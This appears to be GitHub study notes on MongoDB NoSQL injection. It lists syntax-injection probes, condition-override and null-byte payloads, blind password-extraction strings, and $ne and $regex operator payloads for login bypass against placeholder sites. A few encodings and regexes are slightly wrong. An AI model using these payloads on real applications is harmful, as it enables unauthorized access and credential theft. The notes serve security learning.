 
# Content
- [syntax injection](#syntax-injection)
  - [Detecting syntax injection](#Detecting-syntax-injection)
  - [Overriding existing conditions](#Overriding-existing-conditions)
  - [extract data](#extract-data)
- [NoSQL operator injection](#NoSQL-operator-injection)
  - [Submitting query operators](#submitting-query-operators)
  - [Extracting field names](#extracting-field-names)
  - [Exfiltrating data](#exfiltrating-data)

## syntax injection 
- this type is very rare now

consider this mongodb query for the following examples : 
```js
db.users.find({ $where: function () { return this.name == <userInput> } });
```
or 
```js
 db.users.find({ $expr: { $function: { body: function (name) {return name == <userInput>;}, args: ["$name"], lang: "js" } } })
```


#### **Detecting syntax injection**
- submit strings and special characters that trigger a database error or some other detectable behavior 
EX : mongodb 
```mongodb
'"`{
;$Foo}
$Foo \xYZ
```
Url version : 
```url
https://insecure-website.com/product/lookup?category='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```
- In some applications, you may need to inject your payload via a JSON property instead 
JSON version :
```

'\"`{\r;$Foo}\n$Foo \\xYZ\u0000
```

- Determining which characters are processed 
```
https://insecure-website.com/product/lookup?category='    => cause error
https://insecure-website.com/product/lookup?category=\'   => work
```

- Confirming conditional behavior
```
' && 0 && 'x
' && 1 && 'x
```

#### **Overriding existing conditions**
payload:
```
fizzy'||'1'=='1
```
url sent:
```
https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%31%7c%7c%27
```
mongodb query in backend :
```js
db.users.find({ $where: function () { return this.name == 'fizzy'||'1'=='1' } });
```

- You could also add a **null character** after the category value. MongoDB may ignore all characters after a null character. 
- This means that any additional conditions on the MongoDB query are ignored

**EX:** all products in the fizzy category are displayed, including unreleased products : 
```
db.products.find({ $where: function () { return 'fizzy'\u0000' && this.released == 1 });
```

#### **extract data**

to know some condtions 
```
admin' && this.password.match(/\d/) || 'a'=='b     => check if it has digits or no
```

check length
```
admin' && this.password.length < 30 || 'a'=='b
```

extract password
```
admin' && this.password[0] == 'a' || 'a'=='b
```

query in the backend
```js
db.users.find({$where : function(){ return this.name == "admin' && this.password[0] == 'a' || 'a'=='b' ; }}) ;
```





## NoSQL operator injection

Operator | Description
--- | ---
`$where` | Matches documents that satisfy a JavaScript expression. This operator allows you to write custom JavaScript functions to filter and select documents in a collection. It's a powerful but potentially slow operator, so use it with caution.
`$ne` | Matches all values that are not equal to a specified value. It's used to find documents where a specific field is not equal to a given value.
`$in` | Matches all of the values specified in an array. It's used to find documents where a specific field's value is one of the values in a provided array.
`$regex` | Selects documents where values match a specified regular expression. It's used for pattern matching to find documents with values that match a given regular expression pattern. This is especially useful for text-based searches.


#### **Submitting query operators**

In JSON:
```json
{"username":{"$ne":"invalid"}}
```
In URL-based:
```
GET : 

http://vulnApp/login/?username[$ne]=invalid

POST :

username[$ne]=invalid

```

**EX:** Auth bypass Example : 
```json 
{
"username":{
"$regex" : "admin.*"
},
"password":{
"$ne" : "ayklam"
}
}
```
#### **Extracting field names**

test
```json
{"username":"wiener","password":"peter", "$where":"0"}
{"username":"wiener","password":"peter", "$where":"1"}
```
exploit : where `c` is charctar and `i` is index
```json
{"username":"wiener","password":"peter", "$where":"Object.keys(this)[0].match('^.{<i>}<c>.*')"}   =>  check if the first filed data start with letter 'a'
```
query in the backend
```js
db.users.find({$where : function(){ return Object.keys(this)[1].match('^.{<i>}<c>.*')  }}) ;
```


#### **Exfiltrating data**

For example:
```json
{"username":"myuser","password":"mypass"}
```
If the response to this request is different to the one you receive when you submit an incorrect password, this indicates that the application may be vulnerable
```json
{"username":"admin","password":{"$regex":"^.*"}}  
```
extract data
```json
{"username":"admin","password":{"$regex":"^a*"}}
```
